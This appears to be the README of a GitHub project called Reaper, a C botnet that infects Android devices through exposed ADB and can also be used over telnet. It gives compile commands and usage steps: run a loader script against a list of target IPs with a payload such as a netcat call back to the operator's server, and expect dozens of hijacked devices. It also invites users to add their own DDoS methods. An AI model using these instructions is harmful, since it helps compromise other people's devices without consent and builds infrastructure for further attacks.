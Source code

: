 <h1 align="center">
	<img src="https://static.thenounproject.com/png/4050176-200.png" width="150px"><br>
    Reaper - An ADB-based botnet written in C.
</h1>
<p align="center">
	Reaper is an ADB-based botnet that lets control the devices you infect, execute commands, and contains extra tools for playing around. It isn't just limited 
	to ADB, it can be used as a telnet botnet, or a regular botnet.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
     </a>
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Deno-1.0.0+-7DCDE3?style=for-the-badge" alt="Node">
     </a>
</p>

## Why?

Here are few reasons why I made this:
```
- I wanted to learn more about botnets.
- I wanted to make something that will help other people understand and learn more about botnets.
- I wanted to make my own from scratch, because most botnets that are available on github are all variants of mirai or qbot.
```
Extra Facts:
```
- Yes, I know, I could've used epoll, but I didn't want to make things super-complicated and annoying.
- No, this does not contain any DDoS methods, If you want to customize this and add your own, then you are free to do so.
```

## Installation
```
gcc -o reaper reaper.c -lpthread -lcurl
gcc -o client client.c
```

## Usage
After you have authenticated with the botnet and are waiting for connections, run this command -> `python3 loader.py droid.txt`. Make sure you have edited in your payload in the loader script. (It can be something as simple as `nc <serverip> 1337`) Wait around 5-15 minutes, and you should have devices connected. Even though the custom list I made is small and only has 96 IP's, on average, it pulls around 25 - 50 devices. Please remember, you don't have to limit yourself to only android devices, if you want to use a telnet list, it will also work.

## Screenshots
![Screenshot_2021-08-21-05-36-18_922x559](https://user-images.githubusercontent.com/86132648/130317740-f9882527-6632-4529-b776-dd224e7bc6ef.png)
![Screenshot_2021-08-18-06-41-40_893x237](https://user-images.githubusercontent.com/86132648/130317747-3e312623-450b-4a04-8bad-a9ebe8247491.png)

## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
